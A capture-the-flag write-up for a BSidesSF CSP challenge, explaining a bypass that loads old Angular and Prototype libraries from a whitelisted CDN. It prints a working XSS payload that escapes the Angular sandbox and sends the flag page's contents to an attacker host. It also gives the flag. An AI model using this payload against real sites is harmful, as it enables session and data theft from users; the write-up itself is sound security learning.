 **Challenge**: https://csp-2-f692634b.challenges.bsidessf.net/

CSP Evaluator: https://csp-evaluator.withgoogle.com/
- Interesring `script-src`

The challenge page contains a whitelist including `cdnjs.cloudflare.com`. Thus, we can import any library from this CDN.

To solve this challenge we will use a well-known technique, which is based on import vulnerable libraries.

The payload below imports the Angular framework 1.0.1, which allows us to bypass CSP. Then, it is imported the prototype 1.7.2 library to make Angular sandbox escape, because with only Angular is not possible to execute arbitrary JS code.

```javascript
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.min.js"></script>

<div ng-app bg-csp>
<script src="//cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.min.js"></script>
{{$on.curry.call().eval("function reqListener () {window.location='<Your Host>/?a='+btoa(this.responseText);};oReq = new XMLHttpRequest();oReq.onload = reqListener;oReq.open('get', 'csp-two-flag', true);oReq.send();")}}

</div>
```

Edit the paylaod in `window.location` with your host.

Reference: https://blog.0daylabs.com/2016/09/09/bypassing-csp/

**Flag**: CTF{Can_Still_Pwn}
